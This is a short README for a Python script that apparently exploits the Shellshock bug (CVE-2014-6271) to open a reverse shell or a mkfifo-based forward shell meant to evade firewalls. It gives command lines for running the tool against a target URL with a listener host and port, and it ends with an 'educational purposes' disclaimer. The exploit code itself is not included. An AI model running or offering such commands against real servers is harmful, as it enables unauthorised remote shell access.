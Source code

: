 # CVE-2014-6271 Shellshock

A python3 script for the CVE-2014-6271 Shellshock exploit that creates a reverse shell or a pseudo interactive shell using mkfifo for firewall evasion

## Getting Started

### Executing program

* With python3
```
python3 shellshock.py -t http://exploitshellshock.blah -lhost 127.0.0.1 -lport 9001
```
* For forward shell firewall evasion
```
python3 shellshock.py -t http://exploitshellshock.blah -fs
```

## Help

For help menu:
```
python3 shellshock.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.